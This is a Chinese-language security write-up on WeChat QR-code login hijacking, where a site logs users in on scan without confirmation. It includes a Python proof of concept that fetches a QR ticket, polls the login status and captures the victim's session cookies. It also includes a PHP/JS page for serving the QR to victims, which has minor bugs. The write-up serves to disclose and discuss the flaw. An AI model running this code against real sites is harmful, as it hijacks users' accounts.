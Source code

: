 # 二维码劫持漏洞

​		如今，通过微信扫描进行登陆是很主流的一种登陆方法，用户省去了输入密码的环节，厂商也能通过微信公众号提升用户的依赖性。

但是如果登陆策略不当的话，比如像下文中，用户仅需微信扫描二维码，而没有手动确认登陆的情况下，用户就可能受到二维码劫持攻击的风险。



## 二维码登陆流程

下面以实际例子举例：

首先客户端发送请求，获取微信二维码，及ticket。

![](F:\资料（笔记）\二维码劫持\获取二维码.png)



**imageUrl** 就是二维码图片链接

![](F:\资料（笔记）\二维码劫持\二维码链接.png)

接下来通过轮询此二维码，判断用户是否扫描。

一般分为三种情况

- 返回为0，登陆成功，并回显set-cookie
- 返回为1，表示二维码未被扫描
- 返回为2，表示二维码已过期

![](F:\资料（笔记）\二维码劫持\轮询请求.png)



![](登陆成功.png)



## 思路及实践

> 所以思路就来了
>
> 1. 伪造二维码 
> 2. 投放二维码
> 3. 不断轮询，向用户投放二维码
> 4. 获取cooike

```
# @Author:77
# -*- codeing = utf-8 -*-
# @TIME : 2022/9/27 18:11
# @File : Test_QRcode.py
# @Software: PyCharm
import requests
import time

header = {
        'User-Agent': "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36",
        'Referer': "https://www.example.com/"
}

s=requests.session()
while True:
    flag = 0
    response = s.get(url='https://www.example.com', headers=header)
    # print(response.text)
    r = s.get('https://www.example.com/oauth2/login/wechat_qr_code?_=1663254775727', headers=header)
    # print('二维码已生成！')
    qrcodeurl = r.text.split('l":"')[1]
    qrcodeurl = qrcodeurl.split('","')[0]
    ticket = qrcodeurl.split('showqrcode?')[1]
    f = open("qrcode.txt", "w")
    f.write(ticket)
    f.close()
    # 二维码链接
    qr_url = ("https://mp.weixin.qq.com/cgi-bin/showqrcode?" + ticket)
    print('二维码链接为:' + qr_url)
    re_url = ("https://www.example.com/oauth2/login/wechat_mp_status" + '?' + ticket)
    while True:
        # print("开始轮询二维码状态")
        r = s.get(url=re_url, headers=header)

        # print(r.text)
        code = r.text.split('"code":')[1]
        code = code.split('}')[0]
        # print(code)
        if code == '2':
            # print('二维码已失效，请重新刷新')
            flag=1
            break
        if code == '1':
            # print('二维码未扫描')
            continue
        if code == '0':
            flag = 1
            print('登陆成功')
            break
        time.sleep(1)
    if flag == 1:
        break
    time.sleep(5)
print("最终获取cookie为:")
print(requests.utils.dict_from_cookiejar(s.cookies))
```

投放二维码

```
<?php>
$qrcode = file_get_contents('qrcode.txt');
echo'<img src ="https://mp.weixin.qq.com/cgi-bin/showqrcode?.$qrcode.">';
?>
<script type="text/javascript">
    function  flash(){
        location.reload();
    }
    setInterval(falsh,20000)
</script>
```



最后给一张测试成功截图。

![](成功截图.png)







> **当然这个可能并不算是多危险的漏洞，仅是介绍一种攻击的思考角度。在实际中客户体验经常会与安全性产生冲突，是否需要整改可能需要讨论，寻找出一个合适的平衡点。**

